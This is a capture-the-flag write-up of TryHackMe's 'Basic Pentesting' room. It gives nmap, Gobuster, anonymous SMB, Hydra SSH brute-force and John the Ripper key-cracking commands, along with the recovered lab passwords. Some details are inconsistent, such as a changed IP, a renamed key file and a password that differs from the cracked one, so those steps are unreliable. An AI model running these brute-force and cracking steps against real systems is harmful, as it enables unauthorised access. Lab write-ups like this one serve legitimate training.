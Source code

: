 > Sun 3 Aug 2025
> al3xx


![[Write-ups/TryHackMe/Linux/img/s8.png]]

# Basic Pentesting [Link](https://tryhackme.com/room/basicpentestingjt)

## 1. Reconnaissance
### TCP Scan
**command  :**
```bash
sudo nmap -sC -sV -T4 -oN nmap/nmap.txt 10.10.23.91
```

**Open ports**

| Port | Service     | Version                          |
| ---- | ----------- | -------------------------------- |
| 80   | http        | Apache httpd 2.4.41 ((Ubuntu))   |
| 22   | ssh         | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 139  | netbios-ssn | Samba smbd 4                     |
| 445  | netbios-ssn | Samba smbd 4                     |
| 8009 | ajp13       | Apache Jserv (Protocol v1.3)     |

## 2. Enumeration
### HTTP Enumeration
- Port **80** is open.
- The website initially had no visible content.
- Used **Gobuster** to discover hidden directories:

**command  :**
```bash
gobuster dir -u http://10.10.23.91 -w /wordlist/wordlist.txt
```

- Found `/development` 
- Inside `/development` found two files: `dev.txt` and `j.txt`, containing a conversation between `-K` and `-J`.
- From these, learned that `-J` (user Jan) has a weak password.

### SMB Enumeration
- Ports **139** and **445** are open, indicating Samba file shares.
- Enumerated shares with:
**commands :**
```bash
$ smbclient -L //10.10.23.91/Anonymous -N
```
Found shares:
```

	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
```
Connected to `Anonymous` share:
```
$ smbclient //10.10.23.91/Anonymous -N
```

Found `staff.txt`, revealing two users: **Kay** and **Jan**.

## 3. Exploitation
- Using info from `/development` and `staff.txt`, confirmed `-J` is user **Jan**.
- Brute-forced Jan’s SSH password with Hydra:
**command :**
```bash
$ hydra -l Jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.23.91
```
result
```
[22][ssh] host: 10.10.23.91   login: jan   password: armando
```
Logged in as Jan via SSH:
```bash
$ ssh jan@10.10.23.91
```

## 4. Post-Exploitation
- Explored `/home/kay/.ssh` directory and found a private key file `rsa.txt`
- The private key is password protected.
- Converted the private key for John the Ripper using `ssh2john`:
```bash
ssh2john rsa.txt > new.txt
```
- Cracked the private key password with John:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt new.txt
```
**Password found:** `beeswax`

## 5. Privilege Escalation
Logged in as Kay using the private key and password:
```bash
ssh -i /tmp/priv.txt kay@10.10.106.25
```

- Enter the password:  
    `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
- Kay has **root privileges**.
